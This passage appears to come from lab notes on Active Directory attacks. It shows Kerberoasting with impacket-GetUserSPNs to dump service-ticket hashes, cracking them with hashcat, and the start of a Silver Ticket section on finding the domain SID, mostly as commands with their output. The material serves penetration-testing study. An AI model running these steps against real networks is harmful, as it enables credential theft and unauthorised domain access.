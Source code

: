 #### Option 2: Extract from Kali Linux using GetUserSPNs using Impacket

> [!Tip]
>
> All Impacket scripts can be called in Kali with `impacket-<script name>`, there's no need to do `python3 /usr/share/doc/python3-impacket/examples/<script name>.py`

```console
root@kali:~# impacket-GetUserSPNs lab.vx/john:P@ssw0rd -dc-ip 192.168.17.11 -outputfile tgs.hash
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

ServicePrincipalName      Name      MemberOf  PasswordLastSet             LastLogon                   Delegation
------------------------  --------  --------  --------------------------  --------------------------  ----------
host/fs.lab.vx            ADFSSVC             2022-10-24 12:52:02.493613  2022-11-02 08:14:53.777575
MSSQLSvc/SVR.lab.vx:1433  MSSQLSVC            2022-10-24 12:52:02.806113  2022-11-02 08:14:41.802510
MSSQLSvc/SVR.lab.vx       MSSQLSVC            2022-10-24 12:52:02.806113  2022-11-02 08:14:41.802510
```

### 4.2.2. Cracking service account hash using hashcat

```console
root@kali:~# hashcat -m 13100 tgs.hash /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting
⋮
$krb5tgs$23$*MSSQLSVC$lab.vx$MSSQLSvc/SVR.lab.vx:1433*•••hash-truncated•••:P@ssw0rd
$krb5tgs$23$*MSSQLSVC$LAB.VX$lab.vx/MSSQLSVC*•••hash-truncated•••:P@ssw0rd
$krb5tgs$23$*ADFSSVC$LAB.VX$lab.vx/ADFSSVC*•••hash-truncated•••:P@ssw0rd
```

## 4.3. Silver Ticket

### 4.3.1. Retrieve domain's numeric identifier

Security Identifier or SID format: `S-R-I-S`
- `S` - A literal `S` to identify the string as a SID
- `R` - Revision level, usually set to `1`
- `I` - Identifier-authority value, often `5` within AD
- `S` - Subauthority values:
  - Domain's numeric identifier, e.g. `21-1470288461-3401294743-676794760`
  - Relative identifier or RID representing the specific object in the domain, e.g. `1105`

```cmd
C:\Users\mike>whoami /user

USER INFORMATION
----------------

User Name SID
========= =============================================
lab\mike  S-1-5-21-1470288461-3401294743-676794760-1105
```
